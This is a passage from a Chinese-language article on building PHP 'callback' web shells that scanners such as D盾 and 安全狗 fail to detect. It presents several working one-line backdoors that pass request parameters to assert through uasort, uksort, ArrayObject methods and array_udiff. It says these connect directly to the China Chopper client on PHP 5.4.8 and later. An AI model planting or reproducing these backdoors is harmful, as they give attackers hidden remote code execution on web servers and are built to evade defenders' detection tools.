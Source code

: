 依旧被D盾查杀。

果然，简单的数组回调后门，还是很容易被发现与查杀的。

0x03 php5.4.8+中的assert

php 5.4.8+后的版本，assert函数由一个参数，增加了一个可选参数descrition：


这就增加（改变）了一个很好的“执行代码”的方法assert，这个函数可以有一个参数，也可以有两个参数。那么以前回调后门中有两个参数的回调函数，现在就可以使用了。

比如如下回调后门：

    $e = $_REQUEST['e'];
    $arr = array('test', $_REQUEST['pass']);
    uasort($arr, base64_decode($e));

这个后门在php5.3时会报错，提示assert只能有一个参数：


php版本改作5.4后就可以执行了：


这个后门，狗和盾是都查不出来的：


同样的道理，这个也是功能类似：

    $e = $_REQUEST['e'];
    $arr = array('test' => 1, $_REQUEST['pass'] => 2);
    uksort($arr, $e);

再给出这两个函数，面向对象的方法：

// way 0

    $arr = new ArrayObject(array('test', $_REQUEST['pass']));
    $arr->uasort('assert');
 
// way 1

    $arr = new ArrayObject(array('test' => 1, $_REQUEST['pass'] => 2));
    $arr->uksort('assert');

再来两个类似的回调后门：

    $e = $_REQUEST['e'];
    $arr = array(1);
    $e = $_REQUEST['e'];
    
    $arr = array($_POST['pass']);
    $arr2 = array(1);
    array_udiff($arr, $arr2, $e);

以上几个都是可以直接菜刀连接的一句话，但目标PHP版本在5.4.8及以上才可用。

我把上面几个类型归为：二参数回调函数（也就是回调函数的格式是需要两个参数的）

0x04 三参数回调函数

有些函数需要的回调函数类型比较苛刻，回调格式需要三个参数。比如'''array_walk'''。

'''array_walk'''的第二个参数是callable类型，正常情况下它是格式是两个参数的，但在0x03中说了，两个参数的回调后门需要使用php5.4.8后的assert，在5.3就不好用了。但这个回调其实也可以接受三个参数，那就好办了：
